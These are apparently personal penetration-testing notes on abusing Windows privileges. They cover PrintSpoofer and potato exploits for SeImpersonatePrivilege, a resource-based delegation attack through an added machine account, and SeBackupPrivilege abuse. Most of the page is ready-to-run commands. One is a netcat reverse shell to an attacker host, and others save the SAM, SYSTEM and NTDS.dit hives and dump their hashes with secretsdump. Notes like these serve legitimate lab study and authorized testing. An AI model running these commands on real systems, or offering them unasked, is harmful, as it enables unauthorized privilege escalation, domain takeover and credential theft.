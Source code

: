 Collection of Abuses possible of certain privileges
## SeManageVolumePrivilege
	[https://github.com/CsEnox/SeManageVolumeExploit](https://github.com/CsEnox/SeManageVolumeExploit)

## SeImpersonatePrivilege

Get .NET version for godpotato
```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"
```

PrintSpoofer exploit (also a potato)
	PrintSpoofer64.exe
	example
	.\PrintSpoofer64.exe -i -c powershell.exe
If printSpoofer does not work...
	see potato exploits
	Sweet potato
	Godpotato (convenient as precompiled exes)
	etc
	See Potatos page I made
```
#Printspoofer
PrintSpoofer.exe -i -c powershell.exe 
PrintSpoofer.exe -c "nc.exe <lhost> <lport> -e cmd"

#GodPotato
GodPotato.exe -cmd "cmd /c whoami"
GodPotato.exe -cmd "shell.exe"

#RoguePotato
RoguePotato.exe -r <AttackerIP> -e "shell.exe" -l 9999

#JuicyPotatoNG
JuicyPotatoNG.exe -t * -p "shell.exe" -a

#SharpEfsPotato
SharpEfsPotato.exe -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "whoami | Set-Content C:\temp\w.log"
#writes whoami command to w.log file
```

## SeMachineAccountPrivilege

This allows us to add computers to the domain. We can abuse the privs on these computers using the machine account.

Add computer
	`impacket-addcomputer <domain>.local/<user> -dc-ip <ip_address> -hashes :<NTLM_hash> -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'`
		-
		alternatively instead of hash, we can use `<domain>.local/<user>:<password>`
		-

Verify via evil-winrm session
	`get-adcomputer attack`

Modify Delegation rights
	download [rbcd.py](https://raw.githubusercontent.com/tothi/rbcd-attack/master/rbcd.py)
		We need to set `msDS-AllowedToActOnBehalfOfOtherIdentity` on new machine account
	`sudo python3 rbcd.py <domain>\\<user> -dc-ip <ip_address> -t <DC_hostname> -f 'ATTACK' -hashes :<ntlm_hash> 
		-
		alternatively use `<domain>\\<username>:<password>`

Verify again via evil-winrm session
	`Get-adcomputer resourcedc -properties msds-allowedtoactonbehalfofotheridentity |select -expand msds-`
	if this doesnt work that is still okay, it may still work

Get administrator service ticket with our privileged machine account
	`impacket-getST -spn cifs/<domain>dc.<domain>.local resourced/attack\$:'AttackerPC1!' -impersonate Administrator -dc-ip <ip_address>`

 This saved the ticket on our Kali host as **Administrator.ccache**. We need to export a new environment variable named `KRB5CCNAME` with the location of this file.
	 `export KRB5CCNAME=./Administrator@cifs_resourcedc.resourced.local@RESOURCED.LOCAL.ccache
		 this is located in the output of impacket-getST

Add a new entry in **/etc/hosts** to point `resourcedc.resourced.local` to the target IP address and run `impacket-psexec` to drop us into a system shell.
	`sudo sh -c 'echo "192.168.122.175 <domain>dc.<domain>.local" >> /etc/hosts'
	then
	`sudo impacket-psexec -k -no-pass <domain>dc.<domain>.local -dc-ip <ip_address>

## SeBackupPrivilege
https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960

#### Example 1 -- reg save
`mkdir c:\temp`
`reg save hklm\sam c:\temp\sam
`reg save hklm\system c:\temp\system

then transfer back

Dump creds with impacket secretsdump
`impacket-secretsdump -system system -sam sam local

#### Example 2 -- diskshadow
Create txt script
```
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% E:
end backup
```

Run diskshadow
```
diskshadow /s script.txt
```

Switch to E: Drive
```
E:
```

Copy NTDS.dit file using Robocopy to the temp file in C:
```
robocopy /b E:\Windows\ntds . ntds.dit
```

copy system hive
```
reg save hklm\system c:\temp\system.bak
```

Secretsdump
	`impacket-secretsdump -system system -ntds ntds.dit local